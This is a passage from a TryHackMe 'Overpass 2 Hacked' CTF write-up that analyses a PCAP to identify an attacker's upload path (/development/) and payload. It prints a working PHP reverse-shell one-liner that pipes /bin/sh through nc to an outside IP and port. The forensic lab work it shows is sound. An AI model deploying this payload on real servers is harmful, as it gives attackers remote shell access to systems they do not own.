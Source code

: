 # Overpass 2 Hacked

**Date:** 20, May, 2021

**Author:** Dhilip Sanjay S

---

[Click Here](https://tryhackme.com/room/overpass2hacked) to go to the TryHackMe room.

## Forensics - Analyse the PCAP

- Open the pcap file in wireshark.


### What was the URL of the page they used to upload a reverse shell?
- **Answer:** /development/
- **Steps to Reproduce:** 
    - By analysing the initial 30 packets, we find that **payload.php** is being uploaded to **/development/**.

![Overpass2 - Analysing PCAP](Images/overpass2-pcap.png)

### What payload did the attacker use to gain access?
- **Answer:** 

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

- **Steps to Reproduce:** 
    - View the data of packet number 14 (POST request made to /development/upload.php)
    - Inorder to copy the data, use **xxd** over the **hexdump** of data:
